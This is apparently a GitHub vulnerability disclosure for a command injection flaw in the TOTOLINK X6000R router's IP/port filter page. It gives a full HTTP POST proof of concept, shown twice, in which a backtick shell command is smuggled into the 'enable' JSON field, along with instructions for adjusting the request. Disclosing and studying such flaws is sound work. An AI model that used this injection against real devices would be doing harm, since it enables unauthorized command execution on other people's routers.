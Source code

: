 # Summary
There is a command execution vulnerability in TOTOLINK X6000R(https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/247/ids/36.html).

Affected component is "/advance/ipf.html".

# Details
Web front-end interface:
![image](https://github.com/user-attachments/assets/9d2eaab1-3448-4ab2-9ed4-0fc1799fae92)


Capture the packet and see the enable parameter, and do a blind test directly.

You have to adjust the format yourself, add "mode": "1" and then move addEffect before enable:
```HTTP
POST /cgi-bin/cstecgi.cgi?token=591BAF19FCA19C0D HTTP/1.1
Host: ip:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:127.0) Gecko/20100101 Firefox/127.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 98
Origin: http://ip:8081
DNT: 1
Sec-GPC: 1
Connection: keep-alive
Referer: http://ip:8081/advance/ipf.html?token=591BAF19FCA19C0D
Priority: u=1

{"mode":"1","addEffect":"0","enable":"`ls >/web/poc_ipf.txt`","topicurl":"setIpPortFilterRules"}
```
![image](https://github.com/user-attachments/assets/016fbb30-50cc-4305-8f51-591b03923e09)

![image](https://github.com/user-attachments/assets/1e48a310-8750-4056-862a-22e743e43095)



# PoC
Capture the packet and see the enable parameter, and do a blind test directly.

You have to adjust the format yourself, add "mode": "1" and then move addEffect before enable:
```HTTP
POST /cgi-bin/cstecgi.cgi?token=591BAF19FCA19C0D HTTP/1.1
Host: ip:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:127.0) Gecko/20100101 Firefox/127.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 98
Origin: http://ip:8081
DNT: 1
Sec-GPC: 1
Connection: keep-alive
Referer: http://ip:8081/advance/ipf.html?token=591BAF19FCA19C0D
Priority: u=1

{"mode":"1","addEffect":"0","enable":"`ls >/web/poc_ipf.txt`","topicurl":"setIpPortFilterRules"}
```
![image](https://github.com/user-attachments/assets/016fbb30-50cc-4305-8f51-591b03923e09)

![image](https://github.com/user-attachments/assets/1e48a310-8750-4056-862a-22e743e43095)
